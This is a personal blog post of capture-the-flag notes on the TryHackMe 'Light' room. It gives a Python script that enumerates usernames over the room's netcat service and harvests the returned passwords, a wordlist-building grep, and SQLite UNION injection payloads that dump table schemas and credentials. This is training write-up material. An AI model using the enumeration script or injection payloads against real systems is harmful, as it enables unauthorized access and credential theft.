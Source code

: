 ```yaml
---
layout: post
title: "THM Light room notes"
date: 2025-03-06 00:00:00 +0100
categories: [thm, hacking, linux]
tags: [ctf, sqlinjection, netcat, nc, python, bash, sql]
---
```


![light](pics/lightroom.png)

### Room: 
[Try LIGHT room on THM](https://tryhackme.com/room/lightroom)

### CTF intro: 
"I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using:

```bash
nc MACHINE_IP 1337
```

You can use the username smokey in order to get started."

### Notes
- With all this info I started as suggested - by providing username, in response you will get a password
- First idea actually was not SQL injection, but just a bruteforce, so I wrote a short python script to poke the service:

```python
import socket
import argparse
import time
import re

def brute_force(ip, port, userlist):
    try:
        with open(userlist, "r") as f:
            for user in f:
                user = user.strip()
                print(f"[*] Trying username: {user}")
                
                try:
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.connect((ip, port))
                    s.recv(1024)  # Wait for initial prompt (if needed)
                    time.sleep(0.5)  # if need
                    s.sendall(user.encode())  # Send username
                    
                    time.sleep(0.5)  # if need
                    response = s.recv(1024).decode()
                    
                    # Extract password using regex
                    match = re.search(r'Password:\s*(\S+)', response)
                    if match:
                        password = match.group(1)
                        print(f"[+] Found password for {user}: {password}")
                    
                    s.close()
                except Exception as e:
                    print(f"[-] Error: {e}")
    except FileNotFoundError:
        print("[!] Username file not found.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Brute-force username enumeration over netcat-like service.")
    parser.add_argument("ip", help="Target IP address")
    parser.add_argument("port", type=int, help="Target port number")
    parser.add_argument("userlist", help="Path to the username list file")
    
    args = parser.parse_args()
    
    brute_force(args.ip, args.port, args.userlist)
```

- Preparing wordlist: I count that username must have 14 symbols so decide to create a new list (using rockyou.txt - since it is easy room should be enough) so quick bash for that:

```bash
grep -o '\b\w\{14\}\b' rockyou.txt > 14_symbols_words.txt
```

- Starting bruteforce I realized since it is a database we could try SQLInjections meanwhile.
- After some time of trying different payloads I found that UNION could work in this case (pay attention to letter cases) and it is a sqlite kind of db:

```sql
' Union 1 '
' Union Select group_concat(sql) From sqlite_master '
' Union Select group_concat(username || '~' || password) From <here will be some table from previous query> '
```

- Actually that's it for this room, python script was kind waste of time from this room point of view but anyway I like to write scripts so no regret haha :D